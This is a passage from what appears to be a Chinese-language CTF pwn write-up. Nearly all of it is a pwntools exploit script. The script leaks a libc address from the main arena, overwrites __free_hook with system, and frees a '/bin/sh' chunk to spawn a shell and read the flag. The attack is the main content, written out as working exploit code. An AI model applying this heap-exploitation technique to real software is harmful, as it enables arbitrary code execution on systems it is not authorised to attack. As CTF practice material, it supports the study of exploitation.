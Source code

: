    ```python
   
   show_main_arena = addr+0x30
   any_addr_write_print = addr+0x1E0
   payload = b"FFFFFFFF"*12*2+p64(1)+p64(show_main_arena)+p64(any_addr_write_print)+p64(0xFFF)
   edit(1,payload)
   change(b"a"*32)
   
   show()
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x58)
   success("libc_addr==>"+hex(libc_base))
   
   #计算__free_hook和system地址
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   
   add(0x80,0x100,b"/bin/sh\x00",b"/bin/sh\x00")   #3
   payload1 = p64(free_hook_addr)
   edit(1,payload1)
   
   payload2 = p64(system_addr)
   edit(3,payload2)
   free(3)
   
   p.sendline(b"cat flag")
   p.interactive()                             
   ```

   ![image-20240715114612435](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407151146637.png)